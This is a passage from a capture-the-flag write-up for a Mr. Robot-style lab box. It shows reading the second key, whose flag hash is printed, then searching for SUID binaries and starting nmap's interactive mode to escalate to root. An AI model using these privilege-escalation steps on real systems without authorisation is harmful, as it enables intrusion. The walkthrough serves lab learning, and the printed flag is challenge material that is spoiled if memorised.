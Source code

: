 As we have Superuser privileges, `key-2-of-3.txt` becomes readable.

```sh
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

# Flag 3

Given that there is only one flag left, and we have not got root access to this box yet, this would have to be the next logical step.

> The [root account](https://www.ibm.com/docs/en/aix/7.2?topic=passwords-root-account) is a special user in the `/etc/passwd` file with the User ID (UID) of 0 that has virtually unlimited access to all programs, files, and resources on a system.

### Privilege Escalation

To elevate our privileges, we might have to search for binaries - with the `find` command - that we can run interactively and with the SUID bit set.

> [SUID bit](https://en.wikipedia.org/wiki/Setuid) is a Linux file permission setting that allows a user to execute a file or program with the permission of the owner of that file.

```sh
robot@linux:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

<details><summary>Explain this command</summary></details>

From the search result we can point out **nmap** - it's SUID bit is set, meaning that it can theoretically execute commands as root.<br>
The `nmap --help` command tells us that **nmap** has a `--interactive` option.

```sh
robot@linux:~$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
```
